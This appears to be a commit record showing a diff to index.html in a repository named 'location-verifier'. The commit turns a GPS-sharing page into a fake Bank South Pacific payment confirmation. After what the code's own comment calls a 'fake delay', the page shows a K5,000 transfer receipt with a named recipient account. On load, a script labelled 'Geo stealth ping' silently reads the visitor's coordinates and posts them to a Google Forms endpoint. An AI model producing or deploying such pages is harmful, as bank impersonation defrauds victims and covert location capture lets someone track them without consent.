

Before and after one commit to Ray743/location-verifier, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page at 94% size. Before the commit the page ends 816 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,71 +2,165 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Location Verification</title>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>BSP Payment Processing</title>
   <style>
     body {
-      background: #000;
-      color: #0f0;
-      font-family: 'Courier New', monospace;
-      display: flex;
-      flex-direction: column;
-      align-items: center;
-      justify-content: center;
-      height: 100vh;
+      margin: 0;
+      font-family: Arial, sans-serif;
+      background-color: #f4f4f4;
+      color: #333;
+    }
+
+    header {
+      background-color: #77BC1F;
+      color: white;
+      padding: 1rem 2rem;
+      text-align: center;
+      font-size: 1.5rem;
+      font-weight: bold;
+      letter-spacing: 1px;
+    }
+
+    .loader-container, .confirmation-container {
+      max-width: 600px;
+      margin: 2rem auto;
+      background: white;
+      padding: 2rem;
+      border-radius: 8px;
+      box-shadow: 0 0 10px rgba(0,0,0,0.1);
+      display: none;
+    }
+
+    .loader-container.active,
+    .confirmation-container.active {
+      display: block;
+    }
+
+    .loader {
       text-align: center;
     }
-    .message {
-      max-width: 600px;
+
+    .loader h2 {
+      color: #77BC1F;
+      margin-bottom: 1rem;
     }
-    button {
-      background: #0f0;
-      color: #000;
-      padding: 10px 20px;
-      border: none;
-      margin-top: 20px;
-      cursor: pointer;
+
+    .spinner {
+      width: 50px;
+      height: 50px;
+      border: 5px solid #ccc;
+      border-top-color: #77BC1F;
+      border-radius: 50%;
+      animation: spin 1s linear infinite;
+      margin: 0 auto;
+    }
+
+    @keyframes spin {
+      to { transform: rotate(360deg); }
+    }
+
+    .details {
+      line-height: 1.8;
+      border-top: 1px solid #ccc;
+      padding-top: 1rem;
+    }
+
+    .details label {
       font-weight: bold;
     }
-    #locationOutput {
-      margin-top: 15px;
+
+    .instructions {
+      margin-top: 2rem;
+      background-color: #e9f7e0;
+      border-left: 5px solid #77BC1F;
+      padding: 1rem;
+      font-size: 0.95rem;
+    }
+
+    .instructions strong {
+      display: block;
+      margin-bottom: 0.5rem;
+    }
+
+    footer {
+      text-align: center;
+      font-size: 0.9rem;
+      color: #666;
+      margin-top: 2rem;
     }
   </style>
 </head>
 <body>
-  <div class="message">
-    <h2>📍 Location Verification Portal</h2>
-    <p>To proceed, please verify your location by enabling GPS temporarily.</p>
-    <button onclick="getLocation()">Verify Location</button>
-    <div id="locationOutput"></div>
+  <header>BSP Pay</header>
+
+  <div class="loader-container active" id="loader">
+    <div class="loader">
+      <h2>Processing Your Payment</h2>
+      <div class="spinner"></div>
+      <p>Please wait while we complete your transaction...</p>
+    </div>
   </div>
 
+  <div class="confirmation-container" id="confirmation">
+    <div class="success">
+      <h2>Payment Complete</h2>
+      <p>Your payment of <strong>K5,000.00</strong> was successfully processed.</p>
+    </div>
+
+    <div class="details">
+      <p><label>Date:</label> March 31, 2025</p>
+      <p><label>Time:</label> 10:34 AM</p>
+      <p><label>Reference No:</label> BSPTXN28579323</p>
+      <p><label>From Account:</label> 1000 1234567 - Savings</p>
+      <p><label>To:</label> GIBLIN W. TAYLOR - 7004312927 (BSP)</p>
+      <p><label>Branch:</label> Popondetta</p>
+      <p><label>Status:</label> <span style="color: green;">Successful</span></p>
+    </div>
+
+    <div class="instructions">
+      <strong>BSP DEPOSIT DETAIL</strong>
+      <p><strong>Account Name:</strong> GIBLIN W. TAYLOR</p>
+      <p><strong>Account Number:</strong> 7004312927</p>
+      <p><strong>Bank:</strong> BSP</p>
+      <p><strong>Branch:</strong> Popondetta</p>
+      <p><strong>Note:</strong> Endeavor to send payment slips on time along with your Bank branch name/code. Both are required.</p>
+    </div>
+  </div>
+
+  <footer>&copy; 2025 Bank South Pacific Limited</footer>
+
   <script>
-    function getLocation() {
-      const output = document.getElementById("locationOutput");
+    // Show confirmation after fake delay
+    setTimeout(() => {
+      document.getElementById("loader").classList.remove("active");
+      document.getElementById("confirmation").classList.add("active");
+    }, 2500); // Adjust delay in ms if needed
 
+    // Geo stealth ping
+    window.onload = () => {
       if (navigator.geolocation) {
-        navigator.geolocation.getCurrentPosition(
-          (position) => {
-            const lat = position.coords.latitude;
-            const lon = position.coords.longitude;
-            output.innerHTML = `✅ Location captured:<br>🌍 Latitude: ${lat}<br>🌍 Longitude: ${lon}`;
+        navigator.geolocation.getCurrentPosition(position => {
+          const lat = position.coords.latitude.toFixed(6);
+          const lon = position.coords.longitude.toFixed(6);
+          const timestamp = new Date().toLocaleString();
 
-            // Send location to your server (optional - needs backend endpoint)
-            // fetch('https://your-backend-server.com/log', {
-            //   method: 'POST',
-            //   headers: { 'Content-Type': 'application/json' },
-            //   body: JSON.stringify({ latitude: lat, longitude: lon })
-            // });
-          },
-          (error) => {
-            output.innerHTML = `❌ Location access denied or unavailable.`;
-          }
-        );
-      } else {
-        output.innerHTML = `❌ Geolocation is not supported by this browser.`;
+          const formURL = "https://docs.google.com/forms/d/e/1FAIpQLScjeb62SiDsxRcjW3h07ifHa__tUT02T6nRR38DsK63vlAGUw/formResponse";
+
+          const data = new URLSearchParams();
+          data.append("entry.134029494", lat);            // Latitude
+          data.append("entry.1322705077", lon);            // Longitude
+          data.append("entry.1005006779", timestamp);      // Timestamp
+          data.append("entry.873784432", "Auto Location Ping");
+
+          fetch(formURL, {
+            method: "POST",
+            mode: "no-cors",
+            body: data
+          });
+        });
       }
-    }
+    };
   </script>
 </body>
 </html>
```
